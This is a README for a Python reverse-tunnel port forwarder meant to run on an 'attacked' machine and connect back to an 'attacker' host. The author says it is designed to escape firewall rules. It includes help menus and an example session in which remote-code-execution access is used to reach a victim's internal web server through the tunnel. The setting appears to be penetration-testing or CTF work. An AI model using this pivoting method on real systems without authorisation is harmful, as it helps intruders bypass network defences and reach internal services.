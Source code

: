 # ReverseProxyPortForwarder

*linux and windows binaries available*

## Summary

This tool comes with 2 pieces :
- **local_portfwd**
- **remote_portfwd**

These programs are creating a tunnel for tcp packets between a local and a remote machine so they have to run *simultaneosly*.  
The ***local port forward*** program should be running on your local machine, after being started it will be listening for the incoming tunnel connection handshake and on success it will open a service port.  
  
- **I've choosen a reverse connection logic (remote-attacked connecting to local-attacker) instead of a simple bind beacause it's better at escaping firewall rules.**  
  
Once the connection is established you are ready to forward packets to the remote machine by simply sending requests to the RPPF service address (ex. `localhost:4444`).  
Then the requests will be forwarded to the endpoint of the tunnel which is the ***remote port forward*** program.  
The remote forward script is a simple proxy and it will act on behalf of you, forwarding packets to the target address (which you must specifiy during startup).  
Look at bottom page for a simple example.  

## Help menu

`remote_portfwd.py` helper menu :
```shell
$ ./remote_portfwd.py -h
usage: remote_portfwd.py [-h] thost:tport fhost:fport

--------------------------------------
 Reverse Proxy Port Forwarder (Remote)
--------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on the remote (attacked) machine.
A tunnel will be created to the thost:tport address using a reverse 
connection logic, to bypass firewall. The data coming from the tunnel
will then be sent over a new connection to the forward address.
The tunnel address should be your RPPF local tunnel address.
Example : ./remote_portfwd.py localhost:4444 google.com:80
--------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Your local address to be contacted
  fhost:fport  The remote address to forward to

optional arguments:
  -h, --help   show this help message and exit
```
  
`local_portfwd.py` helper menu :
```shell
 $ ./local_portfwd.py -h
usage: local_portfwd.py [-h] thost:tport rhost:rport

-------------------------------------
 Reverse Proxy Port Forwarder (Local)
-------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on local (attacker) machine.
The program will be listening for the incoming tunnel connection from
remote_portfwd.py (thost:tport).
After the connection is established the RPPF is ready to forward data. 
Just send data to the service address.
-------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Tunnel address to listen to
  rhost:rport  The rppf address to listen to

optional arguments:
  -h, --help   show this help message and exit
```

## Simple use case

Let's suppose I want to get access to a web server listeining to 127.0.0.1:80 in a remote machine.  
Obviously I need rce, and a way to upload `remote_portfwd.py`.  
Once I got the program on the remote machine I can begin the attack.  
*Order is not important, you can run before or after `local_portfwd.py`. No matter.*  
  
On remote 
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)

```
Where `10.10.14.19` is my local IP address and `4444`  is the port where I want to create the RPPF tunnel.  
  
Then on your local machine
```shell
$ ./local_portfwd.py 10.10.14.19:4444 localhost:4242
Waiting for incoming tunnel connection...
Tunnel created
Opening rppf listening service...
--------------------------------------------
RPPF Service opened on ('localhost', 4242)
Ready to transfer data

```
Now the RPPF forward service is **ready and listening** on port 4242.  
`10.10.14.19` is the IP to bind to, can be also `0.0.0.0` to listen on every interface.
  
If you go back to remote console the output should have been updated :
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)
tunnel created
opening forward connection to ('localhost', 80)
connection created
--------------------------------------------
Ready to transfer data

```
This means that the also the remote service is **ready and running**.  
  
Now you can just type `localhost:4242` in your web browser to connect to the site as a localhost. :smile:  
  
***NOTE** : For an http request you may need to modify the HOST header (just intercept the request before being sent to layer 4).*
